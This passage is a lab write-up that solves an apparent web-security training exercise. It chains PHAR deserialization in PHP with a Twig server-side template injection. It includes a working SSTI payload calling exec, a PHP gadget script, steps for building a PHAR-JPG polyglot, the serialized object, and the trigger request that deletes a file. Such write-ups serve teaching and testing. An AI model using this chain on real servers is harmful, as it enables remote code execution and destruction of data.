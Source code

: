     ?>

Notice that PHP automatically deserializes objects when calling `file_exists()` on a `phar://` stream. If we can set `template_file_path` to `phar://wiener`, it will deserialize our malicious avatar file.

Studying the code, we found a sink that our RCE would be passed into is in the `__wakeup()` magic method where we can inject server-side template into Twig template engine via `$desc='{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}'`. 

Step-by-Step Execution Chain:
| **Step** | **Action** | **Why It Happens?** |
|----------|-----------|---------------------|
| **1** | Upload PHAR-JPG payload | The PHAR file is stored as `wiener.jpg` |
| **2** | Modify request: `GET /cgi-bin/avatar.php?avatar=phar://wiener` | Forces PHP to read the PHAR archive |
| **3** | `file_exists('phar://wiener')` runs in `CustomTemplate::isTemplateLocked()` | **Triggers PHAR deserialization** |
| **4** | `CustomTemplate` object in metadata is deserialized | The `Blog` object inside it is processed |
| **5** | Blog's `__wakeup()` runs | Twig is initialized with our **SSTI payload** from `Blog->desc` |
| **6** | SSTI payload executes | Executes `rm /home/carlos/morale.txt` |

Use this PHP script to make use of the chain and call the delete function:

      class CustomTemplate {}
      class Blog {}
      $object = new CustomTemplate;
      $blog = new Blog;
      $blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
      $blog->user = 'user';
      $object->template_file_path = $blog;

Now creating a PHAR-JPG polyglot containing this PHP script using [phar-jpg-polyglot](https://github.com/kunte0/phar-jpg-polyglot). Paste the above script inside `phar_jpg_polyglot.php` under `// pop exploit class, inject class here`. Run the script using `php -c php.ini phar_jpg_polyglot.php` to generate `out.jpg`. This is how the serialized object looks like:

    O:14:"CustomTemplate":1:{s:18:"template_file_path";O:4:"Blog":2:{s:4:"desc";s:106:"{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}";s:4:"user";s:4:"user";}}

Upload `out.jpg` and visit the link `/cgi-bin/avatar.php?avatar=phar://wiener` to make the deserialization process happen and solve the lab.